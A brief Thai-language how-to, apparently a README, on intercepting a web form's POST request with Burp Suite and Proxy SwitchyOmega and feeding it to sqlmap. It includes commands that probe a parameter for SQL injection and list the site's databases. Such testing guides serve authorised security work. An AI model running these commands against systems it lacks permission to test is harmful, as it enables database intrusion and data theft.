 install :

- burpsuite
- Proxy SwitchyOmega
- sqlmap

CA Certificate :

http://burp/

# วิธีทำ

POST

- เปลี่ยน port : Proxy SwitchyOmega
- เปิด burp suite
  - เข้า tap proxy
    - เข้า tap options
    - เปลี่ยน port ให้เหมือน Proxy SwitchyOmega
  - เปิด tab intercept
    - intercept on
- ปรับ Proxy SwitchyOmega ให้ใช้ Proxy
- run ส่วนที่อยาก hack
- เปิด burp suite
  - เข้า tap proxy
    - HTTP history
      - คลิกขวา send to repeater
    - เข้า tap repeater
    - save file
- sqlmap
  - cmd : python sqlmap.py -r filename.txt -p parameter -v 4
    ex. python sqlmap.py -r forgot.txt -p email -v 4

```
show log
python sqlmap.py -r filename.txt -p parameter  -v 4


check
python sqlmap.py -r filename.txt -p parameter


database name
python sqlmap.py -r filename.txt -p parameter --dbs --batch
```
